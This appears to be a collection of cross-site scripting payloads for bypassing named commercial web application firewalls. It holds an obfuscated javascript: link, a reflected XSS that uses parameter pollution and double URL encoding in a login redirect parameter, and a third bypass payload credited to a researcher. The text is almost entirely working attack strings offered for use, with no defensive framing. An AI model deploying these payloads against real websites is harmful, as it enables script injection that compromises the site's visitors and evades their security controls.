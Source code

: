 # A solid XSS payload that bypasses I.m.p.e.r.v.a WAF
```
<a/href="j%0A%0Davascript:{var{3:s,2:h,5:a,0:v,4:n,1:e}='earltv'}[self][0][v+a+e+s](e+s+v+h+n)(/infected/.source)" />click
```
# Reflected XSS A.k.a.m.i Waf Bypass in Redirect Parameter using HTTP Parameter Pollution and Double URL Encode:
```
/login?ReturnUrl=javascript:1&ReturnUrl=%2561%256c%2565%2572%2574%2528%2564%256f%2563%2575%256d%2565%256e%2574%252e%2564%256f%256d%2561%2569%256e%2529
```
# C.l.o.u.d.f.l.a.r.e #XSS WAF Bypass by @nav1n0x (Credits)
```
Payload: 
"%2Bself[%2Ffoo%2F'alert'%2Fbar%2F](self[%2Ffoo%2F'document'%2Fbar%2F]['domain'])%2F%2F
```
